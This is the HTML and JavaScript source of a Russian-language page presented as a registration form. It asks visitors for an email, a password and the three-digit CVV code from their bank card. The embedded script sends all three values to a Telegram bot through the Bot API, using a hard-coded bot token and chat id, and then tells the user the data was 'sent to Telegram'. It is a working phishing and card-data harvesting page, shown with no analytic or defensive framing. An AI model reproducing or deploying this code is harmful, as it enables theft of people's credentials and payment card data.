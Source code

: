 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="text">Email</label>
        <input type="text" id="email" name="username" required onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры">
        <br>
        <p></p>
        <label for="text">Password</label>
        <input type="text" id="pass" name="email" required onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры">
        <p></p>
        <label for="cvv">cvv код(3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">>
        <br>
        <button type="submit">Зарегистрироваться</button>
        
    </form>

    <script>
        const form = document.getElementById('registrationForm')
        
        let submit = addEventListener('submit', e => {
          e.preventDefault() 
          
          const username = document.getElementById('pass').value;
          const email = document.getElementById('email').value;
          if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }
          const cvv = document.getElementById('cvv').value;
            
          const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
          const chatId = -1002372284940 
          const message = `Новая регистрация:\n Почта:${email}\n Пароль:${username}\n cvv: ${cvv}`;
          const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
          
          
          fetch(url) 
          .then(response => {
            if (response) {
              
              alert('Данные успешно отправлены в Telegram!');
            } else {
              console.log('error');
            }
          })
          .catch(error => {
            console.error('Ошибка:', error);
            alert('Ошибка при отправке данных.');
          });
        });
    </script>
</body>
</html>

   
